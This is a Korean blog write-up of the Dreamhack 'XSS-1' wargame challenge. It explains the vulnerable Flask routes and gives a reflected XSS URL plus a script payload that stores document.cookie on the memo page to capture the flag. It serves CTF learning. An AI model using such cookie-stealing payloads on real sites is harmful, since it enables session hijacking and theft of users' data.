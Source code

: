 ```yaml
---
layout: post
title: Dreamhack | XSS-1
subtitle: Dreamhack XSS-1 
categories: Web
tags: [Pentest, Web]
---
```


**본 문제는 Dreamhack을 통해서 풀어 보실 수 있습니다.**

**해답을 이해하며 생각을 해보면서 풀이 해보시길 바랍니다.**

## 문제 내용

문제는 <a href = "https://dreamhack.io/wargame/challenges/">dreamhack.io</a>를 들어가시면 확인할 수 있습니다.

<p align="center">
<img src ="https://user-images.githubusercontent.com/78135526/207234522-3e3cd64b-edf7-4266-ae7b-9e7746d6d79d.png" width = 400> 
</p>

해당 문제는 드림핵 Cross Site Script 로드맵에 등장하는 첫번째 문제이다.

접속 정보와 해당 서버를 구성하는 `app.py` 파일이 존재한다.

XSS 취약점을 이용해서 flag를 가져와야한다.

<p align="center">
<img src ="https://user-images.githubusercontent.com/78135526/207234918-9582ecd3-1cc7-4992-9078-b1fc94c27fa5.png" width = 180> 
</p>

접속했을 때 위 처럼 3개의 링크가 존재하는 것을 알 수 있다.

## 문제 풀이

* **vuln(xss)page** : 해당 링크를 접속하면 `1` 이라는 Alert가 뜨는데 해당 URL을 보면 `http://host3.dreamhack.games:17344/vuln?param=%3Cscript%3Ealert(1)%3C/script%3E`로 되어 있다. 

* **memo** : 접속 시 **hello**라는 문구가 있다. 재접속을 할 때 마다 한 줄씩 늘어나게 된다.

<p align="center">
<img src ="https://user-images.githubusercontent.com/78135526/207235285-1fd71c10-57c3-4872-8603-522c7d321b86.png" width = 160> 
</p>

`app.py`를 보고 어떤 식인지 확인해보겠습니다.

```python
@app.route("/vuln")
def vuln():
    param = request.args.get("param", "")
    return param
```

vuln page로 사용자가 입력한 값을 인자로 가져온다. 결국 param의 값은 `<scrpit>alert(1)</scrpit>`였다는 것을 알 수 있고, URL을 보면 해당 parameter가 있다.

즉, 해당 부분에서는 XSS 취약점이 발생한다는 것을 알 수 있따.

```python
@app.route("/memo")
def memo():
    global memo_text
    text = request.args.get("memo", "")
    memo_text += text + "\n"
    return render_template("memo.html", memo = memo_text)
```

memo 페이지는 사용자가 입력한 `memo` 입력 값을 `memo_text += text + "\n"`로 추가하여 **memo.html**을 통해 우리의 입력 값을 보여준다.

```python
@app.route("/flag", methods=["GET", "POST"])
def flag():
    if request.method == "GET":
        return render_template("flag.html")
    elif request.method == "POST":
        param = request.form.get("param")
        if not check_xss(param, {"name": "flag", "value": FLAG.strip()}):
            return '<script>alert("wrong??");history.go(-1);</script>'

        return '<script>alert("good");history.go(-1);</script>'
```

`GET` 메소드 이용 시 **flag.html**를 제공하며, `POST` 메소드 이용시 `check_xss`의 함수를 거치는 것을 알 수 있다.

```python
if not check_xss(param, {"name": "flag", "value": FLAG.strip()}):

def check_xss(param, cookie={"name": "name", "value": "value"}):
    url = f"http://127.0.0.1:8000/vuln?param={urllib.parse.quote(param)}"
    return read_url(url, cookie)
```

check_xss의 인자로는 `param`과 `cookie`인데 cookie를 보면 해당 이름은 **flag**, 그에 대한 값은 **FLAG.strip()** FLAG의 시작과 끝의 공백을 제거하여 값을 전달한다.

해당 url 접속 시 cookie에 해당 **FLAG**가 포함되는 것을 알 수 있다.

> memo를 통해 입력 값을 기록할 수 있고, check_xss를 통해 cookie의 포함된 flag를 알 수 있다.

```
<script>location.href = "/memo?memo = " + document.cookie;</script>
```

<p align="center">
<img src ="https://user-images.githubusercontent.com/78135526/207242306-5147e934-f55e-4f77-88b7-cd38b0722f16.png" width = 370> 
</p>

해당 페이로드를 전송하고 다시 **memo** 링크로 들어가면 FLAG가 입력되어 있는 것을 알 수 있다.